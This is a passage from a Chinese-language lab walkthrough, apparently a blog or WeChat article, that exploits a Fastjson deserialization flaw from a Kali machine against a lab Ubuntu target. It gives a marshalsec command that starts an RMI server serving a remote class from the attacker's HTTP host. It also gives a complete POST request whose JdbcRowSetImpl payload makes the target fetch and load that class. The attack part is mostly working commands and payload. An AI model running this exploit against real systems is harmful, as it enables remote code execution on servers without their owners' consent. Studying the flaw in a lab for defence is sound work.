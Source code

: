 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4Rhr0FFeTtsqVf8ZQA9BBxwcHbEyHah6JoHwMWZyKMwVQdFuX1M7YiaDELg/640?wx_fmt=png "")  
  
  
六、访问kali的IP+开启http服务的4444端口，就会出现下面的页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrLn2zia8q8Oy0LiaCzesvZcKINVPHrPWChXJiayZOBsLcWSXLBVy1VMEZg/640?wx_fmt=png "")  
  
             
#### 2、开启RMI服务  
  
一、开启rmi服务之前，我们需要利用marshalsec项目，需要用到marshalsec-0.0.3-SNAPSHOT-all.jar工具，下载链接如下：  
https://github.com/bkfish/Apache-Log4j-Learning/tree/main/tools  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrG4SBicLPY8xenqicnL8eP7koRcDqoibo1eGSIYicCCvFIHicLTzIsXgZtYw/640?wx_fmt=png "")  
  
             
  
二、接下来使用marshalsec项目，启动RMI服务，监听9999端口并加载远程类TouchFile.class：  
  
开启RMI服务，命令行中的IP地址是kali攻击机开始开启http服务的地址  
```
┌──(root-kali)-[~/桌面/Apache-Log4j-Learning-main/tools]
└─# java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.103.129:4444/#TouchFile" 9999
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrLc2ImlicjJ7sibtNQS2xZwAeFa3W9ibicscBGUhO36liacd6TsCLtEHGHIA/640?wx_fmt=png "")  
  
             
  
三、利用burp抓取靶机ubantu（192.168.103.161:8090）的包，然后再改变抓到的包的请求方式为POST，然后再发送到Repeater中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrZy3qPgnuXPyC11UKiark98iaDDdVDXGIwvHSfmkgQjmiah2zdbKBdLiaAQ/640?wx_fmt=png "")  
  
             
  
四、添加payload，师傅们可以参考我这个请求包的内容，因为我开始在网上找了很多，然后rmi服务监听都没有回应，都失败了。  
```
POST / HTTP/1.1
Host: 192.168.103.161:8090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 165
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.103.129:9999/TouchFile",
        "autoCommit":true
    }
}
```  
  